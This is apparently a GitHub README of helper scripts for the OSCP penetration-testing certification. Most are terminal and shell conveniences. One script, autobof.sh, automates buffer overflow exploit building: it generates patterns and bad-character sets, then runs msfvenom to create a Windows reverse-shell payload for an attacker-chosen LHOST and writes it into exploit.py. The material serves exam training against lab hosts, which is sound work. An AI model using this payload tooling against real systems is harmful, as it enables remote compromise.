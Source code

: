 # OSCP
## OSCP Ergonomic Scripts and Configs

__config.bak__ - A terminator config file that will be used to launch terminator and execute commands like ($ autorecon $ip) 
             across different IP folders using broadcast all mode.

__autoterm.sh__ - A script that will replace the placeholder ProjectX and #1,2,3,4,5 with the ProjectName and the target IP's.

```bash
# Example - terminators config file is reset using config.bak and reconfigured with the new projects IPs
# $./autoterm.sh
# Insert your Kali IP (Default: 127.0.0.1): 192.168.0.104
# Insert your Kali Port (Default: 22): 2222
# Setting Kali IP to 192.168.0.104
# Setting Kali SSH Port to 2222
# Project Name: R
# IPs: 10.10.10.23 10.10.10.5
# Terminator config successfully changed.

#!/bin/bash
# Restore original config
cp ~/.config/terminator/config.bak ~/.config/terminator/config
count=0 #Counter for Number of IPs

# This host should be accessible using preset ssh-keys. SSH Password setup will break terminator.
read -a kalibox -p 'Insert your Kali IP (Default: 127.0.0.1): '
# The ssh service on this host should be running on port 22 by default
read -a kaliport -p 'Insert your Kali Port (Default: 22): ' 

if [ -z "$kalibox" ]
then 
  kalibox="127.0.0.1";
fi 

echo "Setting Kali IP to ${kalibox}"

if [ -z "$kaliport" ]
then 
  kaliport="22";
fi

echo "Setting Kali SSH Port to ${kaliport}"

read -a project -p 'Project Name: '
read -a ips -p 'IPs: '

if [ -z "$project" ]
then 
  echo "Project Name cannot be empty"
  exit 0
fi

if [ -z "$ips" ]
then 
  echo "Please specify some IPs"
  exit 0
fi 

for elem in ${ips[@]}
do
  if [[ ! "$elem" =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then 
    echo "Please specify real IPs"
    exit 0
  fi 
  count=$((count+1))
  sed -i "s/127.0.0.1/$kalibox/g" ~/.config/terminator/config
  sed -i "s/2222/$kaliport/g" ~/.config/terminator/config
  sed -i "s/projectX/$project/g" ~/.config/terminator/config 
  sed -i "s/#$count/$elem/g" ~/.config/terminator/config 
done

echo 'Terminator config successfully changed.'
```


__autobof.sh__ - A script of generating 'full hex shellcode characterset' -> 'hex shellcode with deducted badchars' -> 'msfpayload'. Autobof will automatically generate payloads and modify exploit.py payload variable.
__badcharset.py__ - A script for generating the full hex shellcode 
__exploit.py__ - A python script for testing for simple buffer overflow

```bash
# Author: Andrew Abwoga
# This script will automatically generate a characterset without the bad characters the user has specified
# Specify outlying bad characters (from mona): 01 02 03
# Specify lhost (for venom): 127.0.0.1
# [+] Bad character shellcode: \x01\x02\x03
# [+] Bad character deduction: 
# payload = "\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
# [+] Modifying exploit.py payload with characterset without bad characters...
#!/bin/bash

echo 'Rule: Provide empty inputs to generate a full characterset payload.'
echo 'Rule: Provide pattern length only as input to generate the pattern.'
echo 'Rule: Put exploit.py and badcharset.py on the same path as this file.'
read -a plength -p 'Specify (pattern length + 400) (from fuzzer.py): '
read -a badchars -p 'Specify outlying bad characters (from mona): ' 
read -a lhost -p 'Specify lhost (for venom): '

sed -i "/payload =/d" exploit.py #deletes payload variables from exploit.py for reuse
sed -i "/payload +=/d" exploit.py #deletes payload variables from exploit.py for reuse
sed -i "/padding = \"\"/a payload = \"\"" exploit.py #appends payload variable

if [ -n "$plength" ]
then
msfpattern=$(msf-pattern_create -l $plength)
echo '[+] Modifying exploit.py payload with msf-pattern...'
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
sed -i "/payload = \"\"/c payload = \"$msfpattern\"" exploit.py
echo '[+] Pattern payload: '
echo $msfpattern
exit 0
fi

if [ -z "$badchars" ]
then
echo "[+] Full bad characterset payload: "
echo "payload = \"$(python2 badcharset.py)\""

echo "[+] Modifying exploit.py payload with full characterset..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
replacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}' ) 
sed -i "/payload = \"\"/c $replacement" exploit.py
exit 0
fi

if [ -n "$badchars" ] && [ -z "$lhost" ]
then
echo -n "[+] Bad character shellcode: "
bc="$(echo ${badchars[@]} | sed 's/ /\\x/g' | sed 's/^/\\x/g' | tr '' '\n')"
echo "$bc"

echo "[+] Bad character deduction: "
pattern=$(for i in ${badchars[@]}; do echo -n "s+x$i\\\++g; " ; done)
badcharsreplacement=$(echo -E "payload = \"$(python2 badcharset.py)\"" | sed "$pattern" | gawk '/\\/{gsub(/\\/, "\\\\")};{print}')
echo $badcharsreplacement

echo "[+] Modifying exploit.py payload with characterset without bad characters..."
cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
sed -i "/payload = \"\"/c $badcharsreplacement" exploit.py
exit 0
fi

if [ -n "$lhost" ]
then
echo -n '[+] Generating venom...'

cat exploit.py | sed -i 's/payload = ".*"$/payload = ""/g' exploit.py
bc="$(echo ${badchars[@]} | sed 's/ /\\x/g' | sed 's/^/\\x/g' | tr '' '\n')"
msfoutput=$(msfvenom -p windows/shell_reverse_tcp LHOST=$lhost LPORT=4444 EXITFUNC=thread  -v payload -b "$bc" -f python)
venom=$(echo -n -E $msfoutput | gawk '/\\/{gsub(/\\/, "\\\\")};{print}' | sed 's/payload/\\\npayload/g')

echo '[+] Modifying exploit.py with payload...'
sed -i -e "/payload = \"\"/c $venom" exploit.py

echo -n '[+] Generated venom output: '
echo "$(echo $msfoutput | sed 's/payload/\npayload/g')"
exit 0
fi
```
__dollar_ip_prompt_command.sh__ - Has a PROMPT_COMMAND env variable that will track a directory named using an IP on the current path (pwd)
                             and it will set the $ip env variable to that IP named directory. The code should be place on .bashrc or .zshrc. For zsh you have to add the line ```bash precmd() { eval "$PROMPT_COMMAND" }``` at the end of the .zshrc file

```bash
# Example - $ip env variable is automatically set using the code below
# $ mkdir 10.10.10.5
# $ cd 10.10.10.5
# $ autorecon $ip 

function prompt_command {
	unset ip #unset IP to make sure its not assigned
	nfields=$(echo $PWD | awk -F '/' '{print NF}') #get the number of directories along the path
	for i in $(seq $nfields) #iterate through the number of directories in the path
	do
		base=$(echo $PWD | awk -v i=$i -F '/' '{print $i}') #get a specific directory
		if [[ $base =~ ^[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}$ ]]; then #if that directory is an ip
			export ip=$base #export that ip 
		fi
	done
}
export PROMPT_COMMAND=prompt_command
```

[![Watch the video](https://i1.ytimg.com/vi/vRj62ltRSiY/sddefault.jpg)](https://www.youtube.com/watch?v=vRj62ltRSiY "Click to watch demo on Youtube")

